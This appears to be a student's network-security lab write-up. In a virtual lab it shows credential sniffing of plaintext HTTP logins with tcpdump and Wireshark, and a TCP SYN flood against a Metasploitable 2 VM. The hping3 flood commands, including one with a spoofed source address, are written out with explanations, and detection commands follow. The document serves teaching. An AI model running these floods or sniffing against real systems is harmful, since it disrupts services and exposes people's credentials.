





# Network Attacks

## Capture Web Browsing

The node1 is the client and running the lynx web browser, using the command “lynx www.myuni.edu/grades” to access the website that is running in node3.
The node2 will capture traffic with tcpdump. Using the command “sudo tcpdump -i any -w web.pcap” so we can save it in a pcap file named web.
Lastly node3 will be the web server running Apache to run the sample website.



In node1(client) we accessed the sample website and login using the following credentials and access the grades table.

<li>Username: 5012345678; Password: student</li>
<li>Username: s1234567; Password: student7</li>

While doing this, node2 is capturing all the packets that is coming through node3(server side).

First login


Second login

We analyze the capture (web.pcap) using Wireshark, sorted the HTTP protocol and find the POST requests. Because the username and password are not encrypted and sent in plain text, we can see the bare-naked text.

## DoS Attack

Using Kali, router and ms2 virtual machines I launched a TCP SYN Flood Dos attack on metasploitable 2 (ms2 - 172.16.1.35).



### Commands Terminal 1 to attack port 80

```bash
sudo hping3 --syn -p 80 --spoof 172.16.1.1 --flood ms2
sudo hping3 --syn --data 120 -p 80 --flood ms2
```

What it does:

<li>--syn → sends SYN packets</li>
<li>-p 80 → target port (HTTP)</li>
<li>--spoof 172.16.1.1 → fake sender (router)</li>
<li>--flood → send packets as fast as possible</li>
<li>--data 120 → adds payload (sample 120) - heavier attack </li>

### Commands in Terminal 2 to detect SYN packets.

```bash
sudo tcpdump -i eth1
```



### Commands in MS2 to see the output of the attack.

```bash
Ms2$sleep 5 ; ss -a |grep :www
```
